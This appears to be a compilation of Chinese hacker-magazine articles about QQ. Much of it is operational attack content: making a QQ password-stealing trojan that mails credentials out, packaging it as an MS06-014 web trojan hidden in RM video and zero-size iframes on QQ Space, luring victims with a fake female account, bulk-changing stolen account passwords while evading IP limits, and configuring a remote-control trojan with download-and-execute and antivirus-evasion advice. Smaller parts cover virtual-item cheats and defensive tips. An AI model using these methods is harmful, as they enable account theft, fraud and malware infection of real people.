在命令行下运行 MiniQQ2.2.exe，输入 QQ 号码和密码登录；执行 listall 可显示当前好友名单，并按分组与在线状态显示。选中目标号码后复制到记事本保存为文本文件。

> 提示：每个QQ号码信息里有的数字表示该QQ所在的分组号码，可根据分组号码将需删除的QQ号码补到文本中。

#### 3. 替换字符

使用 UltraEdit 打开刚才保存的文本，点击菜单“编辑”→“十六进制函数”→“十六进制编辑”，再点击“搜索”→“替换”，打开替换对话框，将“0D0A”替换成“0D0A790D0A”，点击“全部替换”按钮，即可将换行符替换为“y”键及换行（图8）。保存文件，再使用记事本打开文本，将文本中的“1”全部替换为“delete ”（注意后边有一个空格），保存文件即可（图9）。


窗口中开始自动删除好友了（图10）。删除过程是非常快的，而且不会弹出任何连接不上服务器的提示。

> 提示：我们也可以用Word先行替换操作，在“查找内容”中输入“^p”，在“替换为”中输入“^p y^p”，其中“^p”代表的都是回车。

> 提示：其实我们利用的是 MiniQQ 内置的删除好友命令“delete QQ号码”，粘贴文本到命令提示窗口中将会自动批量执行删除命令，并且自动输入“y”去确认。

#### 4. 删除

将所有文本复制，返回刚才的 MiniQQ 窗口中，在提示符下点击右键，选择“粘贴”命令，即可将文本复制入命令提示符窗口。

## 利用QQ空间也能盗QQ

去年第12期的黑客X档案让我学到了不少东西，学以致用，我想到了利用QQ空间来盗QQ号：首先我们需要配置一个QQ木马，我使用的是“极限层内部版”，它的配置界面非常简单，选择“邮箱收信”方式，输入收信邮箱和发信邮箱，其他的按照图1来设置，然后点击“生成木马”就会生成木马服务端了。不过要注意：使用邮箱收信方式的话，收信邮箱和发信邮箱一定不能使用同一个，不然，要是让大虾们给破解反盗了，那就白费心机了！


把木马制作成网页木马那是必然的，我使用了MS06-014；在网上找了一个MS06-014在线生成器 http://www.bazhi.com/ms06014/ ，输入我们QQ木马的网址（前提是我们需要拥有自己的空间来存放配置好的木马），然后点击下一步。就按照它的说明，加密代码后复制粘贴到一个HTML文件中，现在我们的网马就制作完成了，将制作好的网马也上传到我们的空间上去。


下一步就是在视频中挂马了，可以使用“RealMedia Editor”这个工具，运行后打开一个MP3或一部影片（格式必须是RM或RMVB的），然后新建一个TXT文本文档，输入“U 00:00:00.00, 00:00:00.10 HTTP://我们的网马地址”，依次点击“工具”→“合并事件”，浏览并选择刚才新建的TXT文本，然后另存为，把合并的文件保存下来。


接着是关键的一步，利用QQ空间的模块功能来为我们挂马。打开QQ空间选择“自定义”→“新建模块”，选择“视频模块”，填上名称和视频的地址就行了，其他的默认就可以（图4），最后输入验证码并确定（当然为了美观还要整理一个主页的视频窗口，把它缩小并拖到角落点就OK了）。


## QQ宝典

当别人浏览我们的空间时就会弹出一个空白窗口，相信谁看到这个空白窗口都会怀疑的，因此我们还要伪装一下。找一个广告窗口把它保存下来，然后在它的源码中加入“<iframe src=网页 width=0 height=0></iframe>”，设置成在后台里运行我们的盗Q木马，这样就不会被别人发觉有问题了（图5）。

盗QQ的空间就这样制作好了，但为了我们自己QQ的声誉和让别人更容易中马，我新申请了一个QQ号，并将资料改成了MM。我们来试试，随便添加一个QQ好友，随便几句就可以骗到对方来登录我们的QQ空间了；自然地，对方也就轻易地中了我们的QQ木马了，如图6、图7。


## QQ盗来之后的故事

冰河洗剑

网上各种各样的QQ盗号木马满天飞，如何盗取QQ号就不用我教了吧，最简单的一个方法就是配置好一个QQ盗号木马，在网上运行，然后放上面的QQ就会自动飞到我们的邮箱或网站中了。但是这些盗来的QQ该怎样处理呢？一个个来更改QQ号码密码的话，还要一个个地去查询是否有密保，是否是会员，如果是长期不登录的QQ号，还要一个个地去激活登录……下边我就为大家详细介绍一下该如何解决QQ盗来之后的这些问题。

## 一、批量导出保存QQ号

使用邮件接收被盗的QQ号是QQ盗号木马最常使用的方式了，对于这些邮件，一个个地复制QQ号与密码是一项非常辛苦的工作。能否简单地将邮件中的QQ号导出来保存呢？我们以处理“QQ密保大盗”木马盗取的QQ邮件为例。

首先，使用Foxmail之类的邮件客户端程序接收所有盗Q邮件，然后在Foxmail中选择所有的盗Q邮件，点击“文件”→“保存为文本”（图1），指定好要保存的路径，就可以将这些邮件保存为一个TXT文本文件了。


### 二、查找替换，去除无用信息

使用文本编辑器（可以使用记事本）打开刚才保存的文本，可以看到文本中保存的是所有邮件内容，包括了邮件头、主题和正文等（图2）。现在我们要做的就是去掉这些多余的信息，只保留QQ号和密码。

观察文本内容，其中的“--”号分隔线、“From:”和“To:”所在行的内容都是相同的，因此可以直接使用查找替换，将所在行字符内容全部删除掉。使用Word打开文本，打开查找替换对话框，在替换对话框的“查找”中输入所在行内容。注意，查找内容中还应该包括字符串最后的换行符，可点击下面的“特殊格式”按钮，在弹出菜单中选择“手动换行符”，也可以直接在查找字符串后添加“^l”。“替换为”中什么都不用输入，直接点击“全部替换”按钮（图3），就可以删除文本中所有的“--”号分隔线、“From:”和“To:”所在行的内容了。

再来替换掉文本中的空白行和段前空格。


“Subject:”和“Date:”行内容是不同的（图4），因此不能使用简单的查找替换，可采用通配符替换的方法。在“查找”中输入“S*D”，字符串中的“*”代表任意多个字符；表示查找以字符“S”开头以“D”结尾、中间为任意字符（包括回车符）之类的文本内容（图5），替换内容中输入字符“D”，替换完毕后，文本内容格式如图6所示。


再使用同样的方法，在查找中输入“D*帐户”，在替换中输入“帐”，全部替换后，每一行文本格式为“帐户：****  帐户密码：******”。将其中的“帐户”替换为空格全部删除掉，将其中的“帐户密码”字符串替换为分隔符，不同的密码修改软件要求不同，可以使用“-”分隔；我使用空格来分隔的（图7）。

## 三、批量修改QQ密码

腾讯更改了QQ密码修改的流程，现在更改QQ密码比以前要困难了。网上各种QQ密码批量修改工具不是要收费就是捆绑有木马，我推荐使用绿色QQ密码批量修改工具“QQPC V1.97”。运行QQPC V1.97，在“改密模式”中选择“列表修改”，在“密码设置”中勾选“使用指定密码”，输入自己要修改的新密码（图8），点击“高级设置”按钮，打开高级设置对话框，勾选“倒计时提醒”下的“启用倒计时功能”等设置项（图9）。


> 提示：倒计时修改功能可以让软件自动逐条改密码，改完一个密码后会按设定时间进行垃圾搜索，时间到后窗口自动弹出。可按自己的网络速度设置等待时间。

在右边“功能开关”中勾选“启用垃圾箱功能”和“启用ADSL自动拨号功能”，在下方的“ADSL自动拨号”中可设置拨号帐号和密码及自动拨号次数和时间间隔。

> 提示：由于腾讯限制了同一IP地址修改QQ密码的数量，因此必须勾选启用ADSL自动拨号功能，避免IP地址被屏蔽。“QQPC V1.97”的ADSL自动拨号功能会在连续两次拨到的IP一样时自动重拨。“垃圾箱”的作用是把密码错误的号码放入垃圾箱中，便于后续处理。


关闭高级设置对话框后，点击“加载”后的“导码”按钮，指定导入刚才的QQ号文本文件。软件会自动登录连接腾讯网站，输入验证码点击“提交”按钮，登录成功后按提示输入密码修改验证码，提交成功后即可成功更改密码（图10）。

### 五、批量登录与激活

网上关于QQ批量自动登录的软件有很多，我推荐使用TenyQQ v2.0、GuaQQ v1.0。我们以GuaQQ v1.0为例，运行GuaQQ v1.0后，点击菜单“文件”→“添加QQ号码”，在弹出的对话框中添加要自动登录的QQ号码和密码，可将刚才的QQ文本中所有号码复制过来粘贴即可。注意复制前，先要将其中的QQ号与密码间隔替换为“--------”（图11）。添加完毕后，点击“确定”按钮，GuaQQ v1.0就会自动登录所有的QQ号码了，登录完毕后，关闭GuaQQ即可。

不过有许多朋友总会忘记经常登录QQ，导致QQ需要重新激活。我再介绍一个批量激活QQ的小工具“QQ激活精灵2007”。运行QQ激活精灵2007，选择“批量导入”，点击浏览按钮指定保存了要激活QQ号码列表的文本（图12），导入QQ号码后，点击“设置”按钮，打开设置对话框，在“新密码类型”中选择“自定义密码”，输入新密码（图13）。点击确定完成设置后，返回主界面，点击开始按钮，即可开始进行激活，激活过程中需要手工输入验证码。

> 提示：另外，激活多个QQ号码时，还需要点击“代理”设置代理服务器，以免IP地址被封。

至于如何批量查询盗来的QQ是否有密保、Q币、会员信息等，由于腾讯验证方式更改太快，目前还没找到太好的工具。不过对于这些信息有许多QQ盗号木马都可以得到的，所以我们可以直接使用具有这类功能的QQ盗号木马。

（本文所涉及到的QQPC v1.97、GuaQQ v1.0和QQ激活精灵2007已收录到光盘中）


阿布 + 黑侠

## 人人都想花乙种匠，人人都因话玉须植物

在自己的QQ空间中养花已经成了菜鸟们的时尚生活，每天都要去自己的QQ空间给小花浇浇水。为了能够早日领养到五级植物，必须是5级花之神匠才可以申请五级植物，如图1。因此，小菜们就开始发动自己的好友来帮自己的QQ空间踩踩了。那么真的需要这么麻烦才能获得五级植物吗？非也，非也。

黄钻用户每月月初（10号前）固定增加100分，当月开通当月关闭，将不增加黄钻营养指数；当月开通黄钻资格的用户，当月不增加黄钻营养指数，从下月开始增加100分营养指数。

我们点击装扮空间按钮来到商城，在左边的菜单中找到“养植物”下的“五级植物”，挑一个你喜欢的植物哟（图2）。确认领养，这个时候你就成功了一半，最要紧的是：保存我们的劳动成果。


打开自己的QQ空间，然后在IE的地址栏中输入如下代码并回车：

```javascript
javascript:visitCountCallBack({'visitcount':14213,'dayvisit':60,'spacemark':0,'markchange':0,'sun':99999,'love':99999,'rain':99999,'nutri':99999,'level':5,'gardener':5});
```

代码的作用是利用JavaScript来修改当前网页中一个属性的值，解释一下里面代表的含义。

- "sun":99999 代表阳光指数：每1个访客（不包括未登录的访客）给这项指数增加1分，每天增加分数上限为8分。
- "love":99999 代表爱心指数：自己每发表一篇日志、上传一张照片、音乐收藏中增加一个音乐专题、添加偶像资讯均增加3分；但添加一首音乐只增加1分；相应地，每删除一篇日志（不包括个性签名）、一张照片、音乐专题、偶像资讯也都要扣3分，删除一首音乐也要扣1分。每天增加的分数上限为8分，减分无下限。
- "rain":99999 代表雨露指数：网络日志与偶像资讯每增加一个非自己的回复就增加1分，每天增加分数上限为8分。
- "nutri":99999 代表营养指数：每在个人空间商城花费1元钱，给当前植物的这一指数增加8分，不足一元的部分累积（手机消费除外），植物营养指数将在24小时内为我们加上。


这里还要牵扯一个问题，就是人参果。如果现在就保存的话是没有人参果的，那怎么办呢？我反复测试发现人参果是需要激活的，拿什么激活呢？就是假装摘人参果，这个时候数据会回传服务端进行检测你没有资格摘，当然摘不了（原因后面解释），但是已经把人参果给嫁接好了。这一步很重要，有很多人说没有人参果的原因就在于此。点一个人参果假装摘它，点确定来“确认采摘”，系统会弹出“无效的访问连接”，如图3。在左边的菜单中点击“保存方案”按钮就可以了，系统会保存成功（图4），重新登录QQ空间来确认一下，植物和人参果都有了（图5）。


最后总结一下，我们既要知其然也要知其所以然。刚进入QQ空间的时候服务端会赋予网页很多属性，里面就保存我们的级别、阳光、爱心、雨露、营养等指数，都是保存在客户端。当装扮空间领养五级植物的时候系统会从本地（客户端）读取这些属性来判断你是否有资格申请五级植物。那我们就来改掉它，在服务端赋值到服务端读取的这个时间段中在地址栏中执行那段代码就可以达到我们的目的。同样也可以看到执行之后我们的各个指数都做了相应的改变，可以通过领养完植物后得到证实。而且还有个小人参果，如果你想摘的话是不可以的，这个时候它就要回去问服务端你到底有没有人参果这个事了，服务端那边就说了：“没听说啊！”，然后系统会返回“无效连接”；所以摘人参果是不可行的！也就是说人参果是假摘。

## 非红钻也来无限刷QQ秀

天之焱

前几天登录QQ的时候，发现自己的QQ秀快要过期了，就到邮箱里去找找看有没有哪个QQ上有漂亮的衣服来“借”用一下（一个菜鸟级的黑客都应该有一个引以为傲的邮箱吧），结果找了好多个都没有。突然，一个关于QQ注册的画面让我眼前一亮（图1）。

这个QQ怎么还没有开通QQ秀呢？哎，我就大发慈悲帮人家开通了吧。简单地填写完一些必要的信息后提交，开通成功后说是免费送QQ秀，我想无非也就是几个时限很短的小垃圾吧。结果开通后，却送给了我价值10多个QB的衣服，虽然有效期不长，不过也够炫的了（图2）。

但是这些系统赠送的QQ秀不能送人啊？怎么弄到我自己的QQ号上呢？我仔细想了好久，突然想到了QQ秀炼金。这个我一般不使用，只有自己的QQ秀快到期了才用过几次，而且效果也不是很好。可是这次情况不同，还是选择试一试吧。我把得到的那些QQ秀都炼了下来，点保存形象，然后在推荐里点QQ秀炼金，一个一个炼吧（图3），这次的运气还不错，炼完之后，出来了一个装饰品。我又把其他的几个QQ秀也给炼了，得到的还真不错（图4）。

然后，炼完后赶紧送给自己的QQ号，而且我自己的QQ号得到以后还可以继续炼，再送给其他人。腾讯似乎在QQ秀炼金上有一个小BUG，虽然写着剩余使用期限一个月之内不可以炼金，但是经过我的测试，完全可以，所以我们就可以无限地刷QQ秀了（图5）。

其实本文并没有什么特殊的技巧，只是把别人遗忘的两件事情联系在了一起，再加上腾讯的小问题，就可以轻松实现无限刷QQ秀了。至于是申请新号来刷还是使用别人的QQ号来刷就交给各位自己去决定了。


## QQ空间会员的妙用

上个月送给了老鼠一个月的QQ会员，今天她居然上QQ问我会员到底有什么“自定义头像”之类。关于自定义头像怎样免费使用我也没有研究过，巧的是今天上电脑课时小毛就发现了QQ网盘的“激活头像”功能，于是做了测试。


我借了一个16级以下、非会员的QQ号给大家做示范（图1）。打开QQ网络硬盘→个人助理→自定义头像→选择头像看效果→右击，点最上面的“激活头像”→提示成功（图2、图3）。


在测试时经常有进不了QQ硬盘的情况，多点几次“重试”一般就可以进去。使用TM测试也可以更换头像（图5、图6）。

## QQ空间个人形象免费设置

关于QQ空间美化方法之前介绍过，但很多人忽略了个人形象。别人参观空间时，若形象不够美观会影响整体效果。本文介绍一种不花钱的设置方法。


打开腾讯QQ秀网页，在推荐中找到喜欢的风格（图2），选择一个形象（图3）。然后获取对应图片地址，例如 `http://qqshow-user.tencent.com/.../00.gif`。


```xml
<?xml version="1.0" encoding="gb2312" ?>
<succ>设置成功.</succ>
```

进入“QQ空间主人形象”相关页面，在地址栏中输入目标地址并提交，出现成功提示（图5）后返回QQ空间即可看到个人形象变更（图6）。个人形象图片也可以使用网络任意链接图片。


## 菜鸟术：免费获得QQ空间物品

善龙

前几天上网无事，就开始做好事，给QQ上的好友踩空间。正在用鼠标狂点时，突然弹出了如图1所示的一个提示信息：“推荐了5个好友后，即可获得Qzone商城的装饰品1件或价值2Q币的购物券哦！”记得以前也曾看到过这个页面，不过当时并没有细看上面写的是什么，只是看到“该用户的空间还未激活”就把窗口关了。不过，现在看到下面还写着可以送东西，真是令我欣喜若狂啊！如果推荐5个好友，赠送价值2QB的购物券，那么推荐10个，就是4QB，那推荐20个、30个……想想我都要笑啊。

我们这点钱太少了，只够买一个物品时，那我们可以继续推荐，来获取Q币。我本以为会再获取2QB的，可我推荐至少10个好友，却都没有出现那个可爱的提示获取QQ币购物券的提示框。为什么呢？难道是TX限制了一个号一天只能推荐五个好友？后来我才发现这样一句话：“您只可能获得一次我们赠送的礼物，推荐5位好友，推荐人数不再累加。”我狂晕……白申请了那么多Q号。不过没有别的解决办法了吗？这时，我看到每个物品下面的赠送按钮。既然一个号只能获得一次赠送的礼物，那么我们可以使用新申请的一个Q号再推荐另外五个Q号来获取购物券，然后在购买物品的时候选择赠送不就行了吗？说干就干，我使用另一个Q号重新推荐了五个好友后，真的又获得了2QB购物券，接下来就是选择物品，然后赠送，打开赠送物品页面（图5）。


图1

### 第一步：申请Q号

我推荐一个申请Q号的好工具——QQ靓号注册王V3.0，这款工具获取免费QQ号的功能比较好用。运行后选择里面的“获取免费QQ号”（图2），然后就会打开申请Q号的窗口了。点击填写表单，然后在右面的页面里填写基本信息就行了。由于我们只是利用它来推荐好友开通空间，所以只要填上昵称、年龄、性别、密码、所在地区、密保问题以及验证码就行了。点击下一步，填写上刚才你所选择的问题答案，再点击下一步，申请成功。把申请到的Q号记录下来，再重复上述步骤，继续申请完另外四个Q号。


图2

### 第二步：推荐好友开通空间

登录自己的Q号，再登录刚才申请的一个Q号（如果你的电脑配置够棒的话，也可以六个Q号一起登录）。把新申请的Q号添加为好友，然后在自己的主号上点击好友（新申请的Q号）的空间链接，就会打开如图1所示的页面了。

点击推荐好友开通，会显示成功页面。这时在电脑右下角会出现好友请求您开通空间的提示信息框（图3），点击查看，就会打开新用户注册的页面。进入新用户注册页面后，填上基本信息，然后点击立即开通QQ空间（这时如果成功的话就会弹出一个提示成功的对话框，如果不成功的话，也没关系，可以重新来过）。开通成功后，在提示成功的对话框上点击确定，就会自动打开新号的空间，不过此时这个Q号对我们已经没有用了。这样就成功地推荐了一个好友开通空间，接下来再继续推荐另外四个。等到第五个好友推荐完之后，在下部就会出现如图4所示的提示窗口，提示您已成功推荐5位好友开通空间，并获得了腾讯所赠送的饰品或2QB。


图3


图4

### 第三步：收获果实

接下来打开自己的QQ空间（不是那五个新Q号的），点击装扮空间，点击我的商城-余额，就会看见“本月您的购物券还剩：2.0（Q币）”，现在就可以买东西了。只是TX太黑了，每样物品都需要好几QB，不过在平价区里会有一些便宜的东西，可以去那里看看。


图5

填写上受赠人的QQ号码（即自己的主号）及赠送留言（必须写），点击“确定”，赠送成功（图6）。


图6

哈哈，其实本文非常简单，就是过程稍微麻烦了些，不过对于我们这些囊中羞涩的小菜来说，为了把自己心爱的空间弄得好一点，这点辛苦又算得了什么呢？

## 盗取QQ空间商城挂件，装扮我们自己的空间

V.爱死Ne幻灭

大家在QQ空间商城里会看到许多挂件和banner非常漂亮，这些东西在别的地方很难找到。那么，想不想用它们来装扮自己的QQ空间呢？下面，就和我一起去“盗”QQ空间商城的挂件和banner吧。

首先我们来到QQ空间商城，选择好喜欢的挂件或banner，在那个商品上点鼠标右击，选择“属性”，然后将弹出菜单中的地址URL处的图片地址复制下来。


比如我得到的这个地址就是 `http://imgcache.qq.com/qzone/space_item/pre/6/12662.gif`，打开IE，在地址栏中粘贴那个地址，就会看到那个图片了（图1）。很可惜这个并不是我们需要的，把上面地址中的pre更改成orig，这回地址就变为了 `http://imgcache.qq.com/qzone/space_item/orig/6/12662.gif`，再来看（图2），图片终于出来了。

把图片保存到电脑上，然后传到QQ相册或其它地方，最后在空间中调用挂件的地址来装扮空间。要注意的是，在QQ空间添加图片模板的时候，其中的“更多设置”一定要设置好，图片的宽和高要填图片属性里的宽和高才行（图3、图4），保存后的效果如图5所示，和在QQ商城中购买的一模一样哦！

## 几经周折，让腾讯TT不再“流氓”

吴灵灿鹰

### 一、初会TT——败

以前我一直认为腾讯的软件都是绿色的，但是今天却发现腾讯也开始“流氓”了，不信吗？那就跟我来看看吧。前几天有位朋友跟我说，他新安装的TT浏览器的地址栏中有几条垃圾，删除不了，让我去看看（图1）。我本以为他的电脑里中了恶意软件，于是就使用360安全卫士检查了一下，结果却让人郁闷，360没有检测到任何恶意软件及插件（图2）。这可就奇怪了，以前使用360安全卫士清除流氓软件可是屡试不爽的啊，看来这次问题不是那么简单呀。


### 二、再战TT——又败

我打开了IE，却发现IE一切正常，看来那些信息应该是在TT的配置文件里的。可是我翻遍了TT的目录也没有找到，这些东西也不在地址栏的历史记录中，它们到底在哪儿呢？我在“开始”→“运行”栏输入regedit调出了注册表编辑器，试着搜索了一下地址栏里的那些文字，居然找到了（图3）。原来它们是在注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\TENCENT\Traveler\HotKeys` 下面，那就直接把HotKeys这个项删除好了。重新启动TT，下拉菜单里果然没有了刚才那几项（图4）。本以为这样就完事了，可没想到再次启动TT时那些垃圾又出现了。


图4

### 三、使用菜鸟绝招——惨败

真有点郁闷了，莫非TT启动的时候会自动检测键值是否存在，如果不存在就重新创建？唉，没想到TT居然“流氓”到了这种地步。

既然你不仁那就别怪我不义了，拿出我们的杀手锏regmon监视一下，看TT是否监视了某个值。

启动regmon，在过滤器填上hotkeys，然后确定，重新开启TT，看看记录到了什么（图5）。


图5

果然，它监视了hotkeys下面的dwtime这个键值，看来我们只要把hotkeys下的1、2、3、4、5、6等几项删除而把dwtime留下就可以了。手动删掉那几项，重新启动TT后地址栏干净了，再重新启动一次，也没再出来，就这样终于搞定了。最后又顺便把他的电脑优化了一下就闪人了。可回到宿舍没多久，朋友就又跟我说，我走了没一会儿，地址栏的垃圾就又出现了。狂晕，刚才不是好好的吗，怎么我一走就又出来了？真是可恶。

### 四、知己知彼——完胜

没办法，我在本机下载了一个TT开始研究，看看这个TT到底是何方神圣，为什么这么难清理？我初步估计TT不光会监视那3个键，一定还有后援部队。先把hotkeys这个项删了，打开regmon开始监视，然后打开TT看一下完整的过程，regmon监视到的结果如图6所示。

大家注意看圈起来的地方，TT不光检查dwtime这个键，而且还检测version这个键。这两个键是干什么用的？我到注册表看了一下（图7），dwtime是什么？不认识，不过version中的20061108这几个字符惹眼，不就是今天的日期吗？

经过多次检测发现，dwtime代表的是时间。每次TT启动都会读dwtime这个值，如果不存在就创建一个，把值设置为当前时间。如果dwtime的值比当前时间小一定值或值不存在，则读取version这个键值；如果version的值比今天的日期小或者不存在，就重新设置注册表的各键值，而且这个日期好像是从服务器读取的，因为我在本机修改日期后没有看到效果。既然如此，那我们把这个version的值设为1039123100算了，这样在2040年以前TT都不会再重设注册表了，够狠吧。好了，这回TT启动的整个过程已经清晰了，那么就用Delphi做个小工具发给朋友让他自己去解决吧（图8）。


图6


图7


图8

### 五、总结

经过几次周折，TT地址栏终于清净了。绿色软件就要有个绿色软件的样子，跟流氓软件学什么。相信大家也经常遇到流氓软件的困扰，希望本文能提供给大家一个解决的思路。只要配合regmon、filemon之类的监视软件，任何风吹草动都逃不过我们的眼睛，加上理智的分析就能够顺利地清除它们。当然过程有时是曲折的，要有耐心。

（本文所涉及到的TT地址栏清除工具已收录到光盘中）

## QQ2007聊天记录照样看

前天一MM要我帮她找个离线查看QQ2007聊天记录的工具，我爽快地答应了。在网上翻了半天，找出来一个名叫QQMsgShow的小工具，支持QQ2007。

QQMsgShow的界面非常简洁，先点击“选择QQ目录”按钮，选择QQ的安装目录，然后在下面的下拉列表中选择我们要查看的QQ号码，最后按右边的“查看消息”（图1）。该QQ与别的好友的聊天记录就会显示出来了（图2），除了能够显示聊天记录外，还有系统消息、群组消息等（图3）。

因为我们不是注册用户，所以“导出资料”功能不能使用（图4）。不过“QQ工具”中的“手动破解消息文件”可以使用。先选择MsgEx.db文件（图5），再输入其对应的QQ号码（图6），点击“查看QQ消息”按钮，就能得到这个号码的聊天记录了。

如果查看聊天记录时出现了乱码，可以在显示聊天信息的窗口中点击鼠标右键，然后选择“编码”，从中选择正确的编码（通常是选择简体中文）就可以了。


## 让QQ消息来控制别人的电脑

QQ消息也能控制别人的电脑吗？这太神奇了吧！怎么实现的呢？其实方法很简单，只需要一款名叫“QQ远控精灵”的木马，就可以实现通过QQ聊天信息来控制别人电脑的目的了。它拥有关闭/重启远程计算机、注销用户、抓屏并发送、列举进程、结束进程、下载并运行文件、运行文件、删除文件、卸载服务端等功能。虽然比起灰鸽子等木马功能略少，但其操控灵活和方便是那些木马不可比拟的。


### QQ远控精灵的配置

我们以“QQ远控精灵”2.4版为例。首先运行客户端QQClient.exe（如图1），只需要修改“输入识别码”后面框里的数据即可。识别码用于告知主控端发出的识别码来控制你的肉机，默认识别码为“wsdgs”，我们将其修改成别的五位识别码，比如12345等。

识别码修改完后，点击“生成服务端”按钮，这时在原来的界面上又会出现一个“配置服务端”的窗口，在这儿主要是填写邮箱信息。填写完毕后可以按“发信测试”按钮（图3），目的是测试邮箱是否能够接收到测试邮件。如果收到了，就说明配置没有问题了（图4）。最后点击“配置服务端”窗口里的“生成服务端”按钮，就会生成木马的服务端。


服务端生成后，我们还可以利用以前杂志上介绍的捆绑、免杀等技术来对服务端进行改造，以更好地躲过杀毒软件的查杀。限于篇幅，就不细说了，各位读者请仔细翻阅前几期的杂志。

### QQ远控精灵的操控

我们把服务端程序通过QQ发给好友，或是通过网站挂马，或者是利用远程溢出后再上传到对方的电脑上执行。当对方成功运行了我们的服务端后，就可以利用发送QQ信息来控制对方的电脑了。

- 1. 关闭对方计算机

运行“QQ远控精灵”的客户端QQClient.exe，在左侧下拉菜单里显示的就是木马的一些功能，选中“关闭计算机（图5）”，然后点击右侧的“生成代码”后，在左边的空白栏里就会生成让对方关机的代码了（生成的代码会根据大家输入的识别码来改变），如图6。我们把生成的代码复制下来，然后利用QQ发送给中了该木马的好友，对方就会关机了，如图7。

- 2. 下载指定文件并运行

如果想让对方的电脑下载我们想要的程序并执行（通常是用来下载其它功能更强大的木马程序），那么可以选择下拉菜单中的“下载文件并运行”，然后在下面的空白栏中输入想下载的程序的地址，最后点击“生成命令”，再点击“生成代码”，如图8。我们把生成的代码利用QQ发送给对方，当对方接收到代码信息后，就会自动下载程序并运行了（默认下载到的地址是在C:\下）。至于其它的功能，使用的方法类似，就不再多说了。这个木马独特的思路和设计非常新颖吧，大家就好好地玩玩吧！


（文中涉及到的工具QQ远控精灵已经收录在光盘中）

## VIP4会员深层“动K级好友”功能

随着自己QQ好友的不断增多，可能很多朋友的网友数量已经达到了500人的上限，而且QQ会员等级也已经到了VIP4，但却未享受拥有索引权限的便利。其实主要原因是自己的QQ未开通该级别对应的功能。QQ会员的等级体系从VIP1逐步成长至VIP6，并且每个会员等级阶段都会有不同的附属特权。本文以VIP4会员升级到QQ会员为例，来演示如何开通并使用K级好友功能。


## QQ宝典


## 拿什么拯救你——我的QQ

无敌小龙（张博）

### 一、后门，又见后门

几年前我就知道了一款不错的QQ盗号软件……在“作案”无数后，我开始纳闷为什么搞到的QQ号码都是位数众多的那种。数月后，我终于知道了真相，原来在这个软件里还藏有后门，所有的五、六位靓号全部发到了程序作者的 Email 中，真是窝火啊！

那么怎么识别有后门的QQ木马呢？我们先在自己的电脑上运行配置好的QQ木马，然后在QQ号码处输入“123456”，在密码处输入“password”，点“登录”按钮，然后到配置好的邮箱里去看；如果没有收到信件，那就要注意了，这很可能就是藏有后门的木马！

注意：此招对新版的阿拉QQ大盗无效……所以为了测试是否有后门，我们需要有一个“简短好记”的QQ号，而且还要申请了密码保护，这是见招拆招，揪出它的后门！

### 二、走出误区

按照一般网上的说法，只要把输入密码的顺序改一下，就可以防止盗号。不过，我认为这个方法完全无效。先来说说 Nprotect 保护……（关于键盘记录、密码框保护与记录行为的分析）。


那么QQ盗号木马的流程一般是怎样的呢？首先，它要破坏掉这个 Nprotect 保护文件，然后在窗口中选择一个使用类似我编写的那种键盘记录工具的功能来完成这个捕获工作……发送一个“WM_GETTEXT”消息，返回QQ用户登录密码。

如果使用键盘记录（假设密码是123456），当先输入“456”再在前面补“123”，记录结果会变为“456123”（图2）……原因是键盘记录软件只能记录键盘操作而不能记录鼠标操作。


而当木马破坏了 Nprotect 保护文件，又选择发送“WM_GETTEXT”消息，那么密码框的内容就会被完全记录……即使按先输入“456”、再前插“123”的顺序来填写密码，最终仍会被正确捕获。

### 三、识马不养马

#### 1. 手工法

怎样来发现我们的电脑中了QQ木马呢？运行QQ来到登录界面，在密码输入框点击鼠标右键，如果不能弹出快捷菜单，那么恭喜你可以放心使用QQ登录了……如果弹出了快捷菜单（图3），就要注意了，可能 Nprotect 保护文件已被破坏。


#### 2. 工具法

我们要用的工具是QQ医生，另外还有一个在线查毒的网址（推荐使用，因为病毒库是最新的）：http://safe-qq.com/cgi-bin/tso/sw_scan。先使用最新版本的QQ盗号软件配置一个服务端，再利用QQ医生在线查毒，一下子就检测出来了（图4）。


注意：我推荐使用最新版的QQ。因为在同样中了QQ盗号木马后，新版QQ会出现软键盘让用户输入密码，而老版QQ则没有此功能（图5）。


如果不在乎QQ的功能而更重视安全和简洁联系，可考虑使用 Tencent Messenger（TM）……木马在发信时（如果使用的是邮箱发信），就会暴露自己的邮箱账户和密码……运行 WinHex，打开编辑菜单，找到 RAM（内存），选择 ravseteyis.exe 的对应进程，然后在 WinHex 中使用查找功能搜索类似“@”的字符，可从内存中找到木马用于发送邮件的邮箱账户和密码。

大多数盗号程序作者会删除 TM（Tencent Messenger）窗口来隐藏痕迹；也有通过破坏 Nprotect 文件使登录框不显示红叉的方法。文中举例将QQ安装到其他目录后仍被木马破坏，提出对木马如何定位路径的疑问。


### 四、找回我们的QQ

作者叙述自己长期遭遇盗号与中木马的经历，总结了若干反木马的小技巧，供读者参考。

#### 1. WinHex 内存查找

通过对比中木马前后的进程数量（19个到20个），定位新增的 ravseteyis.exe；由于木马驻留内存，可在内存中检索邮件相关字符串与口令字段。

#### 2. X-Sniffer 数据包嗅探（此法目前已对部分盗号软件失效）

下载 X-Sniffer 后，可在其目录下建立批处理以便调用。运行后可查看抓包参数，并将关键记录写入日志文件以便分析。

```bash
x-sniffer.exe
x-sniffer.exe -pass -log pass.log
```


文中说明：只要电脑上曾经发送过邮件，部分账号口令信息可能被 sniffers 截获；该方法曾被多次介绍，但应结合当前环境谨慎使用。

> 注意：由于该法屡试不爽，部分作者已修补相关“BUG”，新版某些软件中该招可能不再奏效。

#### 3. 通过腾讯客服（此法一出，谁与争锋）

来到QQ的官方网站 http://service.qq.com/zh/1/，可以看到要取回你被盗窃的QQ，主要有两种途径：取回密码和号码申诉（图13）。如果是前者则需要你申请过QQ密码保护并知道密码保护资料！如果你没有遗忘密码保护资料的话，那就简单了，把相关的资料回答一遍，密码就找回来了！

但绝大多数情况下，我们并不记得当初填写的密码保护资料（有的是当初填写的时候随便填的，有的是因为时间太长而忘记的，也有的是因为QQ是别人赠送的不知道等等），所以通过上面的方法是不可能取回QQ密码的。那么最有效的一招就是：给腾讯的客服打电话了！别笑，这样的成功几率绝对比你动用旁门左道，通过一些“专业”的QQ密码找回团体要高上无数倍（凭心而论，我凭此一招，为同窗好友夺回QQ无数——十来个吧*^-^*）！最后，记住腾讯QQ的客服热线电话是 0755-83765566。


图13

（文中涉及到的工具 QQ 医生、WinHex、X-Sniffer 已经收录在光盘中）

## QQ邮箱上双锁，邮箱资料更无忧

魏客玄武

